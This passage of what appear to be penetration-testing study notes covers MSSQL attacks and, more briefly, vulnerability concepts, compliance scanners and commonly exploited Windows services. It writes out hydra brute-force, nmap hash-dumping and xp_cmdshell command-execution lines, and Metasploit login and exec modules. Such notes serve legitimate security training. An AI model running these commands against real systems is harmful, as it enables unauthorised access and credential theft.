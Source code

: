   - hydra -L /root/Desktop/user.txt –P /root/Desktop/pass.txt 192.168.1.128 mssql
  
  - you can also run querys with nmap, check the documentation.
  
  - nmap x.x.x.x -p1433 --script ms-sql-dump-hashes --script-args mssql.username=admin,mssql.password=anamaria
  
  - Run cmd command:
    - nmap x.x.x.x -p1433 --script ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xpcmdshell.cmd="ipconfig" -> Just an example
    - nmap x.x.x.x -p1433 --script ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xpcmdshell.cmd="type c:\flag"
  
  
  - Enumerate MSSQL with Metasploit
    - use auxiliary/scanner/mssql/mssql_login -> set rhosts; set user_file; set pass_file -> exploit
    - use auxiliary/admin/mssql/mssql_enum -> set rhosts at least...
    - use auxiliary/admin/mssql/mssql_enum_sql_logins -> Enumerating possible Logins
    - use auxiliary/admin/mssql/mssql_exec -> check if you can run commands -> set cmd whoami (just as an example)
    - use auxiliary/admin/mssql/mssql_enum_domain_accounts
 
  
# Assessment Methodologies: Vulnerability Assessment
  
  ## Vulnerability overview
  - What is a vulnerability? (NIST) -> A weakness in the computational logic (e.g. code) found in software and hardware components that, wen exploited, results in a negative impact to confidentiality, integrity, or availability.
  
  - CVE (Common Vulnerabilities and Exposures)
  - NVD (National Vulnerability Database)
  

# Compliance Check of Systems
  
  - https://www.stigviewer.com/
  - https://www.niwcatlantic.navy.mil/scap/ (SCAP Vulnerability Scanner) -> Download here: https://public.cyber.mil/stigs/scap/
  
# Host and Network Penetration Testing: System / Host Based Attacks
  - Most frequently exploited windows services
    - IIS (TCP 80 /443)
    - WebDAV (TCP 80 / 443) -> HTTP extension that allows clients to update, delete, move and copy files in a webserver. (Web Server act as a File-Server)
    - SMB / CIFS (TCP 445) -> Network File Sharing
    - RDP (TCP 3389) -> GUI Remote Access Protocol
    - WinRM (TCP ports 5986/443) -> Windows remote management protocol that can be used to faciliate remote access with Windows Systems
  
